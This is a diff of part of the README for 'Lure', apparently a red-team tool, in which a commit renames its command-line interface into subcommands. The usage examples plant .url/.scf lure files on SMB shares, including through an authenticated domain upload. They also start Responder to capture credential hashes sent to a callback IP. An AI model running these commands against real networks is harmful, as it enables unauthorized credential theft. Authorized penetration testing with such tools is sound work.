

Before and after one commit to Real-Fruit-Snacks/Lure, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -31,21 +31,24 @@ pip install git+https://github.com/Real-Fruit-Snacks/Lure.git
 ```
 
 ```bash
-# Drop a .url file on an open share and start Responder
-sudo lure -r 10.10.10.5 -l 10.10.14.3 -i tun0 -a public -u
+# Drop a .scf file on an open share and start Responder
+sudo lure drop -t 10.10.10.5 -c 10.10.14.3 -i tun0 -s public -p scf
 
-# Authenticated put across a domain share, prompting for the password
-sudo lure -r 10.10.10.5 -l 10.10.14.3 -i tun0 \
-    -a shares -d CORP -U jdoe --ask-pass -u
+# Authenticated upload to a domain share, prompting for the password
+sudo lure drop -t 10.10.10.5 -c 10.10.14.3 -i tun0 \
+    -s shares -u CORP/jdoe --ask-pass
 
-# Drop all three payload types at once with a custom basename
-sudo lure -r 10.10.10.5 -l 10.10.14.3 -i tun0 -a public -A --name @docs
+# Drop all three (default) into a nested subdirectory
+sudo lure drop -t 10.10.10.5 -c 10.10.14.3 -i tun0 \
+    -s shares -d HR/public
 
 # After the engagement: remove the payloads from the share
-sudo lure -r 10.10.10.5 -a public -A --cleanup
+sudo lure clean -t 10.10.10.5 -s public
 ```
 
 > `lure` requires `smbclient` and `responder` on `$PATH`. On Kali: `sudo apt install smbclient responder`.
+
+> **Upgrading from v1.x?** The flat `lure -r ... -l ... -A` interface is gone. Run `lure --help` for the four new subcommands. See [CHANGELOG.md](CHANGELOG.md) for the full rename table.
 
 ---
 
````
Also changed, not shown: other parts of README.md (+79 -41 lines).
